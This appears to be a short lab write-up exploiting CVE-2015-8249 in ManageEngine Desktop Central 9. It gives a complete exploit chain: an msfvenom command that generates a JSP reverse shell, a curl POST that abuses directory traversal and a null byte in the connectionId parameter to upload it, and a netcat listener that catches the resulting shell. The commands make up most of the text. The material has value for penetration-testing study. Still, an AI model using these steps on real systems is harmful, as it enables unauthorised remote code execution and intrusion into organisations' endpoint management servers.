 # Manage Engine Desktop Central 9
## Build No: 91084

Vulnerability ID: CVE-2015-8249
POC Code by Sinn3r at 
https://blog.rapid7.com/2015/12/14/r7-2015-22-manageengine-desktop-central-9-fileuploadservlet-connectionid-vulnerability-cve-2015-8249/

This vulnerability allows for uploading of files via PUT, through an insecure request parameter connectionId. 
The details are excellently presented in the linked post.

First a jsp reverse shell payload was created with:

```
msfvenom -p java/jsp_shell_reverse_tcp -f raw > a.txt
```
The file 'a.txt' was edited with local IP and port to use.

Next the one liner POST message was constructed as follows with proper directory traversal string:

```
curl -v -X POST "http://192.168.56.101:8022/fileupload?connectionId=AAAAAAA%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cjspf%5ctest.jsp%00&resourceId=B&action=rds_file_upload&computerName=deefunkt%2ephp&customerId=47474747" --data @a.txt --header "Content-Type:application/octet-stream" && http://192.168.56.101:8383/jspf/test.jsp
```

And a simple nc listener started with:

```
nc -lvv -p 4444
```
When the test.jsp page is fetched via curl, a shell opens on the netcat listener, unfortunately since the POC by sinn3r the current version now runs with local service privileges and so further privilege escalation needs to be conducted.


